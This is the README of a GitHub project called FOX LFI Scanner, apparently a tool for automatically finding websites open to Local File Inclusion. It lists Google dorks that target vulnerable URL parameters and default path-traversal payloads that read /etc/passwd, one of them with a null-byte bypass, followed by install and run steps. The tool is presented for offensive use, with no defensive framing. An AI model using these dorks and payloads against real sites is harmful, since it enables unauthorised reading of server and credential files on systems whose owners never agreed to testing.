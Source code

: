 <a name="readme-top"></a>


<br />
<div align="center">
  <a href="https://github.com/othneildrew/Best-README-Template">
    <img src="https://i.imgur.com/PlZ6PEH.png" alt="Logo">
  </a>

  <h3 align="center">FOX LFI SCANNER AUTOMATIC</h3>

  <p align="center">
    The FOX LFI Scanner is a powerful tool designed for scanning Local File Inclusion vulnerabilities.
  </p>
</div>

## Google Dork
Automatically search for vulnerabilities using google dork

```bash
/db/dorks.txt
```
## Payloads
This uses separate payloads, if you want to add a custom payload, go to:

```bash
/db/payloads.txt
```

Default payloads:
```bash
/etc/passwd
../../../../../../../../../../../etc/passwd
/../../../../../../../../../../../../etc/passwd
/..././..././..././..././..././..././..././etc/passwd%00
../../../../../../../..//etc/passwd
```

### Dork

```bash
inurl:/squirrelcart/cart_content.php?cart_isp_root=
inurl:index2.php?to=
inurl:index.php?load=
inurl:home.php?pagina=
```
## Installation

```bash
https://github.com/sandiskyy/Lfi-fox.git
cd Lfi-fox
pip3 install -r requirements.txt
```

## Usage
```bash
python3 Lfi-fox.py
```
## Note
Using Bing Still Not Working


